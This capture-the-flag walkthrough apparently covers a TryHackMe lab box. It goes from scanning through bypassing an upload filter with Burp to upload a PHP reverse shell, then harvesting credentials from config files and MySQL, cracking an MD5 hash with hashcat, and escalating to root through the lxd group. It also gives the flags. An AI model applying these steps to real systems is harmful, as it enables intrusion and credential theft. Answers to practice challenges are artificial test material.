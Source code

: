 # IP=10.10.98.38


### [Day 24] Special by DarkStar - The Trial Before Christmas ###

1. Scan the machine. What ports are open?

	* `nmap -sC -sV -oN nmap/initial $IP`

```
80, 65000
```

2. What's the title of the hidden website? It's worthwhile looking recursively at all websites on the box for this step.

	* Check out http://$IP:65000

```
Light Cycle
```

3. What is the name of the hidden php page?

	* `gobuster dir -u http://$IP:65000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -o gobuster.log`

```
uploads.php
```

4. What is the name of the hidden directory where file uploads are saved?

	* Check out `gobuster.log`

```
grid
```

5. Bypass the filters. Upload and execute a reverse shell.

	* (optional): You can familiarize yourself with the two client-side javascript files used for the upload process by going to `http://$IP:65000/assets/js/upload.js` and `http://$IP:65000/assets/js/filter.js`
	* Open and configure BurpSuite.
	* Enable the interception of javascript files (this article helped: https://matthewsetter.com/introduction-to-burp-suite/).
	* Turn on the interceptor and in your browser, navigate to `http://$IP:65000/uploads.php`.
	* Forward all requests EXCEPT for the `assets/js/filter.js` file. For that, you'll want to drop it.
	* Create and edit a php-reverse-shell script. Once created, change the file extension from `.php` to `.jpg.php`.
	* Go through the process of uploading the php reverse shell file. You should still have the intercept on.
	* Before clicking forward, go to the Headers tab and down in the text box, change `data:application/x-php` to `data:image/jpeg`.
	* Click Forward. Your reverse shell should now be uploaded.
		* Locally run `nc -lnvp 4444`.

6. What is the value of the web.txt flag?

```
THM{ENTER_THE_GRID}
```

7. Upgrade and stabilize your shell.

	* `python3 -c 'import pty; pty.spawn("/bin/bash")'`
	* `fg`
	* `stty raw -echo`
	* `export TERM=xterm`

8. Review the configuration files for the webserver to find some useful loot in the form of credentials. What credentials do you find? username:password

```
tron:IFightForTheUsers
```

9. Access the database and discover the encrypted credentials. What is the name of the database you find these in?

	* Login to the mysql client: `mysql -utron -p` + `IFightForTheUsers`.
	* View all databases: `show databases;`.
	* Use the tron database: `use tron;`.
	* View all tables: `show tables;`.
	* Select all the data from the user table: `SELECT * FROM users;`.
		* This prints out the user:password: `flynn:edc621628f6d19a13a00fd683f5e3ff7`.

```
tron
```

10. What is the value of the user.txt flag?

	* Decrypt the password, `edc621628f6d19a13a00fd683f5e3ff7`.
	* Check the hash type using this tool: https://www.tunnelsup.com/hash-analyzer/.
		* Hash is of type MD5 or MD4.
	* Use hashcat to decrypt:
		* Searched which mode to use: `hashcat -h | grep MD5`
		* Saved the password to a hash file: `echo 'edc621628f6d19a13a00fd683f5e3ff7' > flynn-password-hash.hash`
		* Run hashcat: `hashcat -a 0 -m 0 flynn-password-hash.hash /usr/share/wordlists/rockyou.txt`

```
@computer@
```

11. Check the user's groups. Which group can be leveraged to escalate privileges? 

	* Check the groups for the user, flynn: `id`.

```
lxd
```

12. Abuse this group to escalate privileges to root.

	* Follow along in either this challenge's tutorial or check out this article: https://www.hackingarticles.in/lxd-privilege-escalation/.

13. What is the value of the root.txt flag?

```
THM{FLYNN_LIVES}
```